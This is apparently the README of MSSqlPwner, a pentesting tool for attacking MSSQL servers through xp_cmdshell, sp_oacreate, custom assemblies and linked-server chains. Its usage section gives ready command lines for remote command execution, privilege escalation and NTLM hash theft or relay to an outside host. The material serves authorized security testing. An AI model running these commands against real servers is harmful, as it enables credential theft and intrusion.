 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.
For example, if the current session does not have administrative privileges, the tool will try to find a chain to escalates its own privileges used linked server.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find a chain that might allow the execution. 
For example, it can send a query to a linked server that returns back with a link to the authenticated MSSQL service with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers directed from the compromised MSSQL service.


This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` (Ole Automation Procedures) on local server or on linked servers

2. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` on local server or on linked servers
- `xp_subdirs` on local server or on linked servers
- `xp_fileexist` on local server or on linked servers

3. Encapsulated Commands and Queries: Execute incapsulated commands or queries using the following options:
- `execute_command` on local server or on linked servers
- `run_query` on local server or on linked servers
- `run_query_system_service` on local server or on linked servers as system user
4. Direct Queries 
- `direct_query` - execute direct queries on local or linked servers as system user.


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/El3ct71k/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec "cmd /c dir \\\\192.168.45.250\\test" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 ntlm-relay \\\\192.168.45.250\\test

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay \\\\192.168.45.250\\test

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
